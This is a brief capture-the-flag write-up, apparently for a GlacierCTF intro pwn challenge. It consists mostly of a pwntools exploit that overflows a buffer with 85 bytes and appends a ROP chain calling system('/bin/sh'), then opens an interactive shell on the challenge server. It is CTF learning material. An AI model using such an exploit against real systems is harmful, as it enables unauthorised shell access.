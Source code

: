 Intro pwn chall.
The binary was statically built with PIE disabled.

```py
from pwn import *

elf = context.binary = ELF("./chall")

rop = ROP(elf)
rop.call(rop.ret)
rop.system(next(elf.search(b"/bin/sh")))

with remote("chall.glacierctf.com", 13392) as r:
    r.sendline((b"A" * 85) + rop.chain())
    r.interactive()
```